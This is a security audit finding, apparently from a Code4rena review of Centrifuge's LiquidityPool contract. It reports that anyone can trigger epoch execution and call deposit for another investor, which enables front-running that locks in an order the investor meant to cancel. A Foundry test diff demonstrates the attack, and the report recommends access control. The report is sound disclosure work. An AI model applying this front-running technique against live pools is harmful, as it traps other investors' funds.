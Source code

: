 # Low Severity Findings
## L01 Permissionless functions incentivize MEV

### Lines of code
https://github.com/code-423n4/2023-09-centrifuge/blob/512e7a71ebd9ae76384f837204216f26380c9f91/src/LiquidityPool.sol#L141-L144
https://github.com/code-423n4/2023-09-centrifuge/blob/512e7a71ebd9ae76384f837204216f26380c9f91/src/LiquidityPool.sol#L148-L152

### Impact
The fact that anyone can trigger the epoch execution, combined with a lack of access control on deposit and mint functions, could give investors with conflicting interests reasons to engage in negative MEV against each other, in order to secure a particular pool's state.

### Description 
Consider the following scenario:

- Alice wishes to invest in the junior tranche of a pool, and calls requestDeposit.
- After the minimal epoch duration has elapsed, but before execution is triggered, Alice changes her mind and cancels her order.
- Bob wishes to invest in the senior tranche in the next epoch, but notices the subordination ratio is too low at present for such an order to go through: 
    SubordinationRatio = value(Junior) / ( value(Junior) + value(Senior))
As the ratio is below its target, the pool will not accept further senior investments nor junior redeems. Thus Bob needs to secure Alice's deposit for his own plans.
- Bob front runs Alice's cancellation with an epoch execution.
- Bob back runs the epoch execution with a call to deposit on behalf of Alice
- As the pool's subordination ratio has improved, Bob can now call requestDeposit on the senior tranche.
Alice now has an investment that she expected to be cancelled; she could be stuck with it if the subordination ratio keeps evolving adversely and a partial freeze prevents her from redeeming, through other investments or the pool's NAV, .

### Proof-of-Concept
The following addition to LiquidityPool.t.sol demonstrates how anyone can call deposit on behalf of an investor:

```diff
diff --git a/./LiquidityPool.t.sol.orig b/./LiquidityPool.t.sol
index 4e60ec1..a392c78 100644
--- a/./LiquidityPool.t.sol.orig
+++ b/./LiquidityPool.t.sol
@@ -1346,4 +1346,38 @@ contract LiquidityPoolTest is TestSetup {
         );
         investor.deposit(_lPool, amount, _investor); // deposit the amount
     }
+
+        function testMEVDeposit( ) public {
+        uint64 poolId = 9;
+        bytes16 trancheId = bytes16("9");
+        uint128 currencyId = 9;
+        uint256 amount = 1e18;
+        uint64 validUntil = uint64(block.timestamp + 1);
+
+        // setup
+        address _lPool_ = deployLiquidityPool(poolId, erc20.decimals(), "TEST1", "TT1", trancheId, currencyId);
+        LiquidityPool lPool = LiquidityPool(_lPool_);
+        erc20.mint(self, amount);
+        homePools.updateMember(poolId, trancheId, self, validUntil); 
+        erc20.approve(address(investmentManager), amount); 
+
+        // request deposit
+        lPool.requestDeposit(amount, self);
+
+        // front run with epoch execution
+        vm.startPrank(address(999));
+        homePools.isExecutedCollectInvest(
+            poolId, trancheId, bytes32(bytes20(self)), currencyId, uint128(amount), uint128(amount)
+        );
+        vm.stopPrank();
+
+        // attempt to cancel order
+        lPool.requestDeposit(0, self);
+
+        // back run execution with actual deposit
+        vm.startPrank(address(999));
+        lPool.deposit(amount,self);
+        vm.stopPrank();
+        
+    }
 }
```

### Recommended mitigation steps
Consider adding access control to deposit/mint.
Warn users of the associated risks.
